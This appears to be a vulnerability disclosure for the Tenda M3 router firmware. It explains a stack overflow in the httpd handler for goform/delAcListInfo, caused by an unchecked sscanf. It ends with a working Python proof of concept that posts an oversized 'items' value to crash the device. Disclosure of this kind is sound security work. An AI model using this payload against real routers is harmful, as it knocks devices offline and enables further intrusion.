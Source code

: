 ## Overview

- The device's official website: https://www.tenda.com.cn/product/M3.html
- Firmware download website: https://www.tenda.com.cn/download/detail-3133.html

## Affected version

V1.0.0.12(4856)

## Vulnerability details

httpd in directory `/bin` has a stack overflow vulnerability. The vulnerability occurrs in the `formdelMasteraclist` function, which can be accessed via the URL `goform/delAcListInfo`.

<img src="img/image-20220527205939183.png" alt="image-20220527205939183" style="zoom:67%;" />

function `formdelMasteraclist` gets the POST parameter `items` and passes it to function `sub_53778` as the first argument.

<img src="img/image-20220527210116880.png" alt="image-20220527210116880" style="zoom:67%;" />

This function splits the first argument with a `,` and then splits it into a buffer by calling `sscanf` function without checking its length.

## PoC

Poc of Denial of Service(DoS)

```python
import requests

data = {
    b"items": b'A'*0x400 + b':' + b'A'*0x400 + b',',
}
cookies = {
    b"user": "admin"
}
res = requests.post("http://127.0.0.1/goform/delAcListInfo", data=data, cookies=cookies)
print(res.content)
```

